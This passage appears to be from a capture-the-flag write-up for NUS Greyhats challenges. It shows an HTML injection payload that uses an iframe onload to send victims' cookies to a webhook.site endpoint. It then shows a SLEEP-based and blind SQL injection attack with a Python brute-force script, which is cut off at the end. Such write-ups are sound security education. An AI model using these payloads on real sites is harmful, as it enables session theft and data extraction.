 For some reason the parser ignores anything on the line of the code block quotes. We can take advantage of this by injecting an element that can steal cookies on Chromium browsers.

```html
```python">asss<iframe onload="document.location='https://webhook.site/???/?c='+document.cookie" href="
```

## Fearless Concurrency
The application leaks the user secret by creating a table with a randomised name, performing an SQL injectable query, and dropping the table right after. To give us enough time to extract the table name, we'll have to inject a `SLEEP(n)` into the query so that the application doesn't drop our table.

```sql
H%' AND SLEEP(7); -- 
```

Now we need to use blind SQL injection to extract our table name, but the user we slept on cannot be used as the application assigns a mutex to each user that is acquired on performing any database operation:

```rs
impl User {
    fn new() -> User {
        User {
            lock: Arc::new(Mutex::new(())),
            secret: rand::random::<u32>()
        }
    }
}
```

However, since this is per-user, we can simply register another user and extract from there. Since we know our previous user's id, all we need now is to brute force the randomly generated `table_id` with a search space of `u32`.

```python
import requests
import json
import requests_async
user1_id = 3536229236652552362
user1_pass = 3014427053
user2_id = 2725506906259309759
user1_hashed_prefix = "tbl_328b62706e834f61616399736a6a1fa35da2f0a0_"
url = 'http://challs.nusgreyhats.org:33333/query'
headers = {'Content-Type': 'application/json'}
table_name = user1_hashed_prefix
while True:
    check = False
    for char in "0123456789":
        payload = {
            "user_id": user2_id,
            "query_string": "H%' AND (SELECT SUBSTRING(table_name, " + str(len(table_name) + 1) + ", 1) FROM information_schema.tables WHERE table_schema=database() AND table_name LIKE '" + user1_hashed_prefix + "%' LIMIT 0,1) = '" + char + "'; -- "
        }
        response = requests.post(url, headers=headers, data=json.dumps(payload))
        if b"Hello" in response.content:
            table_name += char
            print(table_name)
            check = True
            break
    if not check:
        break
payload = {
    "user_id": user2_id,
    "query_string": "' UNION SELECT * FROM " + table_name + "; -- "
```